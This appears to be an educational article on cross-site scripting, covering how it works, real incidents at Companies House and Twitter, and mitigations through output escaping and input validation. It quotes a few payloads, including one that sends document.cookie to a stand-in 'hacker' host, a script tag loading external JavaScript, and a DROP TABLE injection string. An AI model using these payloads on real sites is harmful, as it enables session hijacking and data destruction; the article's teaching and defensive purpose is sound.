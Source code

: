 # XSS — what is it and how to protect yourself?

![Exploits of a Mom](https://imgs.xkcd.com/comics/exploits_of_a_mom.png)



## Briefly about XSS vulnerabilities

What is XSS? How to search? How to understand if there is XSS or not? We'll figure it out now. Let's go!

**XSS (Cross-Site Scripting)** — the ability to execute arbitrary JavaScript code in the victim's browser in the context of your site.

XSS is one of the most common vulnerabilities in the web. More than 95% of web applications are vulnerable to XSS. To find a bug, it is not necessary to have special skills, take courses or get a higher education.

Indeed, despite the fact that XSS is a common vulnerability, it remains one of the most serious client vulnerabilities.



## How does XSS work?

![image-20231108163447446](C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20231108163447446.png)

Cross-site scripting works by manipulating a vulnerable web site so that it returns malicious JavaScript to users. When the malicious code executes inside a victim's browser, the attacker can fully compromise their interaction with the application.



## XSS examples 

**Example 1.**
For example, the HTML snippet:

```html
<title>Example document: %(title)</title>
```

is intended to illustrate a template snippet that, if the variable title has value [Cross-Site Scripting](https://www.veracode.com/blog/2012/07/what-is-cross-site-scripting), results in the following HTML to be emitted to the browser:

```html
<title>Example document: XSS Doc</title>
```


A site containing a search field does not have the proper input sanitizing. By crafting a search query looking something like this:

```html
"><SCRIPT>var+img=new+Image();img.src="http://hacker/"%20+%20document.cookie;</SCRIPT>
```


sitting on the other end, at the web server, you will be receiving hits where after a double space is the user's cookie. If an administrator clicks the link, an attacker could steal the session ID and hijack the session.

 

**Example 2.**
Suppose there's a URL on Google's site, `*http://www.google.com/search?q=flowers*`, which returns HTML documents containing the fragment

```html
<p>Your search for 'flowers' returned the following results:</p>
```

i.e., the value of the query parameter q is inserted into the page returned by Google. Suppose further that the data is not validated, filtered or escaped. 
Evil.org could put up a page that causes the following URL to be loaded in the browser (e.g., in an invisible*<iframe>*):

```html
http://www.google.com/search?q=flowers+%3Cscript%3Eevil_script()%3C/script%3E
```

When a victim loads this page from [www.evil.org](https://www.veracode.com/security/xss#), the browser will load the iframe from the URL above. The document loaded into the iframe will now contain the fragment

```html
<p>Your search for 'flowers <script>evil_script()</script>'
```

```html
returned the following results:</p>
```


Loading this page will cause the browser to execute *evil_script()*. Furthermore, this script will execute in the context of a page loaded from *www.google.com.*

 

## The real story with the British Register of Companies

On October 20, a certain Jim Walker shared an interesting observation on the forum of developers of the British state register of companies Companies House. Companies House allows the characters < and > in company names. This opens up scope for attacks on those sites that do not filter and do not screen control characters in the correct way. If the site displays the company name and does not synthesize data, then it is potentially vulnerable to an XSS attack.

Walker discovered that on October 16, a certain Michael John Tandy had registered a company with the name `"><SCRIPT SRC=HTTPS://MJT.XSS.HT></SCRIPT> LTD`. If there is no XSS filter, what is the company name embedding code on the web page that calls external JavaScript.

![img](https://habrastorage.org/r/w1560/webt/cp/-8/pl/cp-8plobwfxzzz724_jpguf9zfu.png)

On October 22, the regulator sent a warning to its partners about "company 12956509". The letter carefully avoids mentioning the real name. The company is called by the number in the database.

In the letter, employees give a brief educational program about the nature of XSS attacks and warn about possible security risks.

![img](https://habrastorage.org/r/w1560/webt/sy/qc/7f/syqc7f6wqc4odbw-kkw07zy9msi.png)

Companies House hid the company's name to the maximum. As noted on Twitter (X), even the statement about the institution 12956509 in the name field contained: "The name of the company is provided on request."

The culprit of the event himself appeared in Jim Walker's thread on October 23, three days after the discovery. Michael Tandy explained that it would be irresponsible for him to disclose information on a public forum, so he contacted Companies House through a technical support ticket.

Resources that receive information from the Companies House registry are vulnerable. Michael said that he is already contacting all the sites that called his script. As a security researcher complained, sites vulnerable to XSS rarely post contacts for communication and do not have an account on HackerOne-type services.

At the forum, Company House employees confirmed that they had received Tandy's messages. The name "company 12956509" was changed to *THAT COMPANY WHOSE NAME USED TO CONTAIN HTML SCRIPT TAGS LTD* (literally "the company whose name used to contain HTML tags"). It is unknown whether the vulnerability in Company House systems has been fixed. Perhaps the registry has introduced special restrictions on names.

It is not the first time that attempts to inject code are found in the Companies House registry. In 2016, a company with SQL injection appeared under the number 10542519: `; DROP TABLE "COMPANIES";-- LTD`



## XSS attack on Twitter (X)

In 2014, an Austrian teenager @firoxl was experimenting with his feed on Twitter, trying to make it display the Unicode ‘heart’ character. By doing so, he inadvertently discovered that Twitter’s feed was vulnerable to an XSS attack! @firoxl immediately reported the issue to Twitter, but it was too late. His discovery was already making rounds on social media.

Less than two hours after @froxl’s discovery, a German IT student @derGeruhn published a Tweet that exploited XSS to ... retweet itself. Thus, the self-retweeting tweet was released into the world. It retweeted itself hundreds of thousands of times and affected thousands of Twitter accounts, including @NYTimes and @BBCBreaking. To end its reign, Twitter had to take their whole feed offline.

On the left you will find an image that shows the content of the self-retweeting tweet. The tweet contains malicious JavaScript code which gets executed every time someone views the tweet in their feed. The script accesses the HTML of the Twitter page, finds the “retweet” button, and presses it to retweet itself.

![A self-retweeting tweet](https://images.ctfassets.net/4un77bcsnjzw/3ho0b9vT3FYIBKWiWGe0bu/3a387ca01b12ac1010ae6f2fa9546cb6/tweetdeck-hacked.png)



## XSS mitigation

### 1. Find places where user input gets injected into a response

XSS is extremely popular for a reason: we programmers very often inject user-supplied data into the responses we send back to users. The first step to mitigate XSS is to find all places in your code where this pattern occurs. Input data might be coming from a database or directly from a user request. Any data which might have originated from a user at any point in the past is a suspect.



### 2. Escape the output

Having identified all the places where XSS might be happening, it’s time to get your hands dirty and code your way out of danger. The first and the most important XSS mitigation step is to escape your HTML output. To do that, you should HTML-encode all dangerous characters in the user-controlled data before injecting that data into your HTML output.

For example, when HTML-encoded, the character `<` becomes `&lt`, and the character `&` becomes `&amp` etc. This way, the browser will safely handle the HTML-encoded characters, i.e. it will not assume they are part of the HTML structure of your page.

Remember to encode all dangerous characters. Don’t assume only a subset of characters needs to be escaped for your specific use case. Bad guys are very creative and will always find ways to bypass your assumptions.

Instead of writing an escape function by yourself, use a well-proven library such as [lodash.escape](https://www.npmjs.com/package/lodash.escape).

![XSS mitigation where a hacker tries to inject a malicious script but the script's content is escaped](https://images.ctfassets.net/4un77bcsnjzw/1ABjVui53sICnyiBxPduPO/6efb664e2b908f2f394abc8ca755dd6a/XSS_Mitigation.svg)

```javascript
import escape from 'lodash.escape';

function handleMessageSend(messageId, senderEmail, messageContent)  {
  database.save(messageId, senderEmail, messageContent);
}

function generateMessageHTML(messageId) {
  let messageContent = database.loadContent(messageId);
  let escapedContent = escape(messageContent);
  return `<p class="messageContent">${escapedContent}</p>`;
}
```



### 3. Perform input validation

Be as strict as possible with the data you receive from your users. Before including user-controlled data in an HTTP response or writing it to a database, validate it is in the format you expect. Never rely on blocklisting—the bad guys will always find ways to bypass it!

For instance, in our chat application, we expect the messageId to be a valid UUID and the senderEmail to be a valid email. Note that in the example we changed generateMessageHTML to generateSenderHTML. This demonstrates two layers of defence to prevent XSS with the senderEmail parameter: we both validate it before saving it to a database and later escape it when injecting it into HTML.

We can use validator.js, which has validation functions for many common data types.

```javascript
import escape from 'lodash.escape';
import isEmail from 'validator/lib/isEmail.js';
import isUUId from 'validator/lib/isUUID.js';

function handleMessageSend(messageId, senderEmail, messageContent)  {
  if (!isUUId(messageId)) {
    throw new Error("validation of messageId parameter failed");
  }

  if (!isEmail(senderEmail)) {
    throw new Error("validation of email parameter failed");
  }

  database.save(messageId, senderEmail, messageContent);
}

function generateSenderHTML(messageId) {
  let messageSender = database.loadSender(messageId);
  let escapedSender = escape(messageSender);
  return `<div class="messageSender">${escapedSender}</div>`;
}
```



### 4. Don’t put user input in dangerous places

The above mitigation is effective against situations where user input is used as the content of an HTML element (e.g. `<div> user_input </div>` or `<p> user_input </p>` etc.). However, there are certain locations where you should never put a user-controlled input. These locations include:

- Inside the `<script>` tag
- Inside CSS (e.g. inside the `<style>` tag)
- Inside an HTML attribute (e.g. `<div attr=user_input>`)

There are some exceptions to the above rules, but explaining them goes beyond the scope of this lesson. If you do need to place user-controlled input inside any of the listed locations, please follow the [OWASP Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) for a more detailed advice.



## Some resources that describe ways to protect XSS

1. OWASP Foundation: The OWASP website provides an overview of XSS attacks and how to test for them. It also offers a set of reusable security components in several languages, including validation and escaping routines to prevent parameter tampering and the injection of XSS attacks.
2. Web Security Academy: This website explains what XSS is, how it works, and how to prevent it. It also provides examples of different types of XSS attacks, such as reflected, stored, and DOM-based XSS. 
3. TechTarget: This website provides a definition of XSS and how it works. It also explains how to prevent and fix it.
4. Trend Micro: This website explores the three types of XSS attacks: reflected, stored, and DOM-based. It also provides information on how to mitigate XSS vulnerabilities in your projects. 
5. Synopsys: This website explains what XSS is and how it works. It also provides examples of how attackers can initiate an XSS attack and the potential consequences of such an attack. 
6. Acunetix: This website explains what XSS is and how it works. It also provides information on the different types of XSS attacks and how to prevent them.
